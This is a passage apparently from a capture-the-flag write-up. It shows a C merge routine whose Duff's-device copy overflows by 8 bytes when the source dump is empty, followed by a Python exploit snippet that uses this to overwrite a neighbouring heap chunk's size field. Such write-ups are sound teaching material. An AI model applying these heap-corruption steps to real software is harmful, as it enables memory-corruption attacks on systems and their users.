 ```c
        printf("\tMerged size is too big! %lu > %lu\n",
               new_len,
               (size_t)MAX_DUMP_SIZE);
        return;
    }
    dumps[idx1] = realloc(dumps[idx1], len1+len2);
    dump_sizes[idx1] = new_len;

    // Code from: https://en.wikipedia.org/wiki/Duff%27s_device
    register unsigned char *to = dumps[idx1]+len1, *from = dumps[idx2];
    register int count = len2;
    {
        register int n = (count + 7) / 8;
        switch (count % 8) {
        case 0: do { *to++ = *from++;
        case 7:      *to++ = *from++;
        case 6:      *to++ = *from++;
        case 5:      *to++ = *from++;
        case 4:      *to++ = *from++;
        case 3:      *to++ = *from++;
        case 2:      *to++ = *from++;
        case 1:      *to++ = *from++;
                } while (--n > 0);
        }
    }

    free(dumps[idx2]);
    dumps[idx2] = NULL;
    dump_sizes[idx2] = 0;
    --no_dumps;
    
    puts("\tMerge successful");
}
```
In this case, we get an 8-byte overflow that copies the first 8 bytes
from the second chunk to the end of the merged one. Since the size of the allocation remains unchanged, `realloc()` doesn’t move it - no reallocation occurs
and the function returns the same address. In effect, we get a primitive that
writes 8 arbitrary bytes after the first merged chunk. This can be used to corrupt heap metadata.

```python
    # Allocate 3 dumps.
    a = create_dump(io, 16)
    b = create_dump(io, 24)
    c = create_dump(io, 16)

    # We write p64(0x411) at the first 8 bytes of dump a.
    # Those are the bytes that will be appended in the overflow
    # to dump b during the merge.
    change_bytes(io, a, 0, p64(0x411))
    # Resize dump a to zero to exploit the bug in Duff's device.
    resize_dump(io, a, 0)
    # Do the merge, in effect we overwrite the heap's metadata.
    # Specifically we overwrite dump c's chunk size to 0x410.
    merge(io, b, a)
```
